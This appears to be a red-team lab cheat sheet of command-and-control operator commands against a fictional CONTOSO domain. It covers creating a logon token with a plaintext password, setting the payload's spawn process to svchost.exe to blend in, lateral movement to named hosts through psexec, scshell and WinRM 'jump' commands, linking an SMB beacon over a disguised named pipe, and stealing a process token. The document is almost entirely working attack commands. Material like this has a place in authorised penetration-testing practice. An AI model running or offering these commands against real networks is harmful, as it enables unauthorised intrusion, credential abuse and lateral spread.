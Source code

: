
Create logon session as local Admin
```powershell
make_token CONTOSO\rsteel Passw0rd!
```

Change the `spawnto` for the service payload
```powershell
ak-settings spawnto_x86 C:\Windows\SysWOW64\svchost.exe
ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
```

Jump via psexec64
```powershell
jump scshell64 DUB-WEB-1 smb

jump psexec64 DUB-WKSTN-2 smb

jump winrm64 DUB-WEB-1 smb

jump scshell64 dub-sql-1.dublin.contoso.com smb

jump psexec64 enc-fs-1.contoso.enclave smb
```

---

```powershell
link smb 192.168.110.52 dotnet-diagnostic-1337
```

```powershell
token-store steal 3184
token-store use 0 
```